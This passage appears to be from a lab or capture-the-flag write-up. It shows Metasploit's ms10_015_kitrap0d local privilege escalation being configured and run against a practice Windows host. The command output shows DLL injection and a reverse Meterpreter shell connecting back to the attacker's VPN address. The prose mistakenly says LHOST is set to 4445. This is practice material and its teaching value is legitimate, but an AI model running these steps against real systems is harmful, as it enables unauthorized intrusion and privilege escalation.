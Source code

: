 ```bash
[+] 10.10.10.5 - exploit/windows/local/ms16_016_webdav: The service is running, but could not be validated.
[+] 10.10.10.5 - exploit/windows/local/ms16_075_reflection: The target appears to be vulnerable.
[+] 10.10.10.5 - exploit/windows/local/ppr_flatten_rec: The target appears to be vulnerable.
[*] Post module execution completed
```

## Executing the Exploit

I decided that I was going to use ```exploit/local/ms10_015_kitrap0d``` since it was the oldest, and thus hopefully the most reliable. Configuration of the module was pretty simple, all I had to do was set the ```TARGET``` to ```0``` (only available option), ```SESSION``` to ```1``` (my meterpreter session that I created earlier), ```LHOST``` to my adapter ```tun0``` (to use my IP on the VPN) and the ```LHOST``` to ```4445``` (not 4444 becuase we already had our meterpreter listener on that port).

```bash
msf5 post(multi/recon/local_exploit_suggester) > use exploit/windows/local/ms10_015_kitrap0d
msf5 exploit(windows/local/ms10_015_kitrap0d) > options

Module options (exploit/windows/local/ms10_015_kitrap0d):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   SESSION                   yes       The session to run this module on.


Exploit target:

   Id  Name
   --  ----
   0   Windows 2K SP4 - Windows 7 (x86)


msf5 exploit(windows/local/ms10_015_kitrap0d) > set TARGET 0
TARGET => 0
msf5 exploit(windows/local/ms10_015_kitrap0d) > set SESSION 1
SESSION => 1
msf5 exploit(windows/local/ms10_015_kitrap0d) > set LHOST tun0
LHOST => tun0
msf5 exploit(windows/local/ms10_015_kitrap0d) > set LPORT 4445
LPORT => 4445
msf5 exploit(windows/local/ms10_015_kitrap0d) > exploit

[*] Started reverse TCP handler on 10.10.14.23:4445 
[*] Launching notepad to host the exploit...
[+] Process 1816 launched.
[*] Reflectively injecting the exploit DLL into 1816...
[*] Injecting exploit into 1816 ...
[*] Exploit injected. Injecting payload into 1816...
[*] Payload injected. Executing exploit...
[+] Exploit finished, wait for (hopefully privileged) payload execution to complete.
[*] Sending stage (176195 bytes) to 10.10.10.5
[*] Meterpreter session 2 opened (10.10.14.23:4445 -> 10.10.10.5:49163) at 2020-07-14 00:52:10 +0100

meterpreter > shell
Process 2012 created.
Channel 1 created.
Microsoft Windows [Version 6.1.7600]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

c:\windows\system32\inetsrv>cd /
```